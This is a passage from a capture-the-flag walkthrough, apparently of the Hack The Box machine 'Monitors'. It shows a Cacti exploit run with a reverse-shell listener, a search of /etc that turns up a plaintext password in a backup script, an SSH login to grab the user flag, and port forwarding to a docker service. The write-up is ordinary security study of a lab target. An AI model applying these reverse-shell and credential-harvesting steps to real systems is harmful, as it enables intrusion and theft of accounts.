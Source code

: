 ```bash
python3 cacti_exploit.py -t http://cacti-admin.monitors.htb -u admin -p BestAdministrator@2020! --lhost <My_IP> --lport 4444
```

```bash
nc -lnvp 4444
```

Then I found marcus password with :

```bash
$ grep -R marcus /etc 2>/dev/null

[...]
/etc/systemd/system/cacti-backup.service:ExecStart=/home/marcus/.backup/backup.sh
[...]

$ cat /home/marcus/.backup/backup.sh

[...]
config_pass="VerticalEdge2020"
[...]
```

I deduced that it was marcus password :

| username | password         |
| -------- | ---------------- |
| marcus   | VerticalEdge2020 |

I then connected via **ssh** as user marcus and got the `user.txt` flag.

```bash
$ cat user.txt
5002739f6d90c37b6c0630521e096288
```

After reading the note.txt file

```text
TODO:

Disable phpinfo	in php.ini		- DONE
Update docker image for production use	-
```

I looked for a docker process :

```bash
$ ps -ef | grep docker

root  2061  1597 0 Jun09 ?  00:00:01 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8443 -container-ip 172.17.0.2 -container-port 8443
```

To access the docker I started a port forwarding session with ssh :

```bash
ssh -L 8000:localhost:8443 marcus@monitors.htb
```
